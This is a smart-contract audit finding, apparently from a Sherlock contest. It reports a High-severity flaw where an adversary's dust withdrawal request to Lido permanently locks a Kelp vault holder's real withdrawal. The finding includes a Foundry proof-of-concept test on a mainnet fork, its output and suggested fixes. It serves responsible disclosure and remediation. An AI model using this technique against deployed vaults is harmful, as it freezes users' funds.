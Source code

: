 Icy Cedar Nightingale

High

# `Kelp:_finalizeCooldown` cannot claim the withdrawal if adversary would requestWithdrawals with dust amount for the holder

## Summary

If an adversary calls `LidoWithdraw.requestWithdrawals` with some dust stETH amount and the `KelpCooldownHolder`'s address, the withdrawal will be locked. It cannot be rescued via `rescueTokens`, since it does not have to logic to `claimWithdrawal`, therefore the withdrawal will be locked permanently.

## Vulnerability Detail

The `KelpCooldownHolder` is responsible to withdraw from rsETH to stETH via `WithdraManager`, and then withdraw stETH to ETH via `LidoWithdraw`. Since it is two step process, the `KelpCooldownHolder` implements `triggerExtraStep`. After the first withdrawal request is finalized, the `triggerExtraStep` should be called to initiate the second withdrawal request.
https://github.com/sherlock-audit/2024-06-leveraged-vaults/blob/main/leveraged-vaults-private/contracts/vaults/staking/protocols/Kelp.sol#L83

The `KelpCooldownHolder._finalizeCooldown` will be called when the `exitVault` is called to finalize the process by `LidoWithdraw.claimWithdrawal` and send the claimed ETH back to the vault.

https://github.com/sherlock-audit/2024-06-leveraged-vaults/blob/main/leveraged-vaults-private/contracts/vaults/staking/protocols/Kelp.sol#L100

This `KelpCooldownHolder._finalizeCooldown` is, however, hardcoded to claim the 0-th request from the `LidoWithdraw.getWithdrawalRequests`, thus  if there are more than 1 withdrawal requests for this `KelpCooldownHolder`, all the requests but the 0-th request will be ignored.

An adversary can abuse this fact by request withdrawal for the `KelpCooldownHolder` before the `triggerExtraStep` is called. In that case the real withdrawal request will not be the 0-th, and will be ignored. 

After the finalize on the dust withdrawal is done, the accountWithdrawRequest on the PendlePTKelpVault will be deleted and this `finalizeCooldown` on the holder cannot be called again since it has onlyVault modifier. The `rescueTokens` will not help, as the stETH is already transferred to LidoWithdraw.


### PoC

Here is a proof of concept demonstrating that a third party can call `LidoWithdrawals.requestWithdrawals`. And the requestId is in the order of request:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import "forge-std/Test.sol";

import {IERC20} from "@interfaces/IERC20.sol";

interface ILidoWithdraw {
    struct WithdrawalRequestStatus {
        uint256 amountOfStETH;
        uint256 amountOfShares;
        address owner;
        uint256 timestamp;
        bool isFinalized;
        bool isClaimed;
    }

    function requestWithdrawals(uint256[] memory _amounts, address _owner) external returns (uint256[] memory requestIds);
    function getWithdrawalRequests(address _owner) external view returns (uint256[] memory requestsIds);
    function getWithdrawalStatus(uint256[] memory _requestIds) external view returns (WithdrawalRequestStatus[] memory statuses);
}

IERC20 constant rsETH = IERC20(0xA1290d69c65A6Fe4DF752f95823fae25cB99e5A7);
address constant stETH = 0xae7ab96520DE3A18E5e111B5EaAb095312D7fE84;
ILidoWithdraw constant LidoWithdraw = ILidoWithdraw(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);


contract KelpTestLido is Test {
    address stETHWhale;
    uint tokensClaimed;

    function setUp() public {
        stETHWhale = 0x804a7934bD8Cd166D35D8Fb5A1eb1035C8ee05ce;
        tokensClaimed = 10e18;
        vm.startPrank(stETHWhale);
        IERC20(stETH).transfer(address(this), tokensClaimed);
        vm.stopPrank();
    }

    function test_Lido_requestId() public {
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 100;
        // Adversary calls requestWithdrawals for the holder with dust amount
        vm.startPrank(stETHWhale);
        IERC20(stETH).approve(address(LidoWithdraw), amounts[0]);
        LidoWithdraw.requestWithdrawals(amounts, address(this));
        vm.stopPrank();

        // The real withdrawal request is done after
        amounts[0] = tokensClaimed;
        IERC20(stETH).approve(address(LidoWithdraw), amounts[0]);
        uint256[] memory requestIds = LidoWithdraw.requestWithdrawals(amounts, address(this));
        uint real_requestId = requestIds[0];
        for(uint i=0; i< requestIds.length; i++) {
          emit log_named_uint("request id for real withdrawal request", requestIds[i]);
        }

        requestIds = LidoWithdraw.getWithdrawalRequests(address(this));
        for(uint i=0; i< requestIds.length; i++) {
          console.log("id for %s: %s",i, requestIds[i]);
        }

        ILidoWithdraw.WithdrawalRequestStatus[] memory withdrawsStatus = LidoWithdraw.getWithdrawalStatus(requestIds);
        for(uint i=0; i< requestIds.length; i++) {
          console.log("stETH amount for %s: %s",i, withdrawsStatus[i].amountOfStETH);
        }

        require(real_requestId != requestIds[0]);
    }
}
```

The Result is below: note that the 0-th request only has the dust amount of stETH request (100)

```sh
[PASS] test_Lido_requestId() (gas: 370501)
Logs:
  request id for real withdrawal request: 44537
  id for 0: 44536
  id for 1: 44537
  stETH amount for 0: 100
  stETH amount for 1: 10000000000000000000
```

The addresses are taken from the mainnet, so should fork from the mainnet to test.

## Impact

A malicious actor can use dust amount of stETH to freeze withdrawal from the `KelpPTKelpVault`. The frozen withdrawal will be locked permanently,

## Code Snippet

https://github.com/sherlock-audit/2024-06-leveraged-vaults/blob/main/leveraged-vaults-private/contracts/vaults/staking/protocols/Kelp.sol#L83

https://github.com/sherlock-audit/2024-06-leveraged-vaults/blob/main/leveraged-vaults-private/contracts/vaults/staking/protocols/Kelp.sol#L100

## Tool used

Manual Review

## Recommendation

Consider claiming all the withdrawals from LidoWithdraw. However, an adversary can request withdrawals for the holder multiple times with dust stETH, attempting another DoS factor. Alternatively consider storing the requestId in the triggerExtraStep, and claim only the stored request in the finalize step.


